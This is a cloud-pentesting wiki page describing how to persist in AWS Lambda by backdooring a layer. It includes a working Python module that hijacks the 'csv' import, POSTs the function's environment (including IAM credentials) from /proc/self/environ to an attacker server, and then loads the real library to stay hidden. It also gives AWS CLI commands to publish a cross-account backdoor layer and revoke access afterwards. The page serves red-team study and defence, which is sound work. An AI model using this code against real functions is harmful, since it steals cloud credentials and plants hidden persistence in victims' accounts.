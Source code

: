 # AWS - Lambda Layers Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## Lambda Layers

A Lambda layer is a .zip file archive that **can contain additional code** or other content. A layer can contain libraries, a [custom runtime](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), data, or configuration files.

It's possible to include up to **five layers per function**. When you include a layer in a function, the **contents are extracted to the `/opt`** directory in the execution environment.

By **default**, the **layers** that you create are **private** to your AWS account. You can choose to **share** a layer with other accounts or to **make** the layer **public**. If your functions consume a layer that a different account published, your functions can **continue to use the layer version after it has been deleted, or after your permission to access the layer is revoked**. However, you cannot create a new function or update functions using a deleted layer version.

Functions deployed as a container image do not use layers. Instead, you package your preferred runtime, libraries, and other dependencies into the container image when you build the image.

### Python load path

The load path that Python will use in lambda is the following:

```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```

Check how the **second** and third **positions** are occupy by directories where **lambda layers** uncompress their files: **`/opt/python/lib/python3.9/site-packages`** and **`/opt/python`**

> [!CAUTION]
> If an attacker managed to **backdoor** a used lambda **layer** or **add one** that will be **executing arbitrary code when a common library is loaded**, he will be able to execute malicious code with each lambda invocation.

Therefore, the requisites are:

- **Check libraries** that are **loaded** by the victims code
- Create a **proxy library with lambda layers** that will **execute custom code** and **load the original** library.

### Preloaded libraries

> [!WARNING]
> When abusing this technique I found a difficulty: Some libraries are **already loaded** in python runtime when your code gets executed. I was expecting to find things like `os` or `sys`, but **even `json` library was loaded**.\
> In order to abuse this persistence technique, the code needs to **load a new library that isn't loaded** when the code gets executed.

With a python code like this one it's possible to obtain the **list of libraries that are pre loaded** inside python runtime in lambda:

```python
import sys

def lambda_handler(event, context):
    return {
        'statusCode': 200,
        'body': str(sys.modules.keys())
    }
```

And this is the **list** (check that libraries like `os` or `json` are already there)

```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```

And this is the list of **libraries** that **lambda includes installed by default**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

In this example lets suppose that the targeted code is importing **`csv`**. We are going to be **backdooring the import of the `csv` library**.

For doing that, we are going to **create the directory csv** with the file **`__init__.py`** on it in a path that is loaded by lambda: **`/opt/python/lib/python3.9/site-packages`**\
Then, when the lambda is executed and try to load **csv**, our **`__init__.py` file will be loaded and executed**.\
This file must:

- Execute our payload
- Load the original csv library

We can do both with:

```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
    url= "https://attacker13123344.com/" #Change this to your server
    req = request.Request(url, data=file.read(), method="POST")
    response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```

Then, create a zip with this code in the path **`python/lib/python3.9/site-packages/__init__.py`** and add it as a lambda layer.

You can find this code in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

The integrated payload will **send the IAM creds to a server THE FIRST TIME it's invoked or AFTER a reset of the lambda container** (change of code or cold lambda), but **other techniques** such as the following could also be integrated:

{{#ref}}
../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md
{{#endref}}

### External Layers

Note that it's possible to use **lambda layers from external accounts**. Moreover, a lambda can use a layer from an external account even if it doesn't have permissions.\
Also note that the **max number of layers a lambda can have is 5**.

Therefore, in order to improve the versatility of this technique an attacker could:

- Backdoor an existing layer of the user (nothing is external)
- **Create** a **layer** in **his account**, give the **victim account access** to use the layer, **configure** the **layer** in victims Lambda and **remove the permission**.
  - The **Lambda** will still be able to **use the layer** and the **victim won't** have any easy way to **download the layers code** (apart from getting a rev shell inside the lambda)
  - The victim **won't see external layers** used with **`aws lambda list-layers`**

```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```

{{#include ../../../../banners/hacktricks-training.md}}
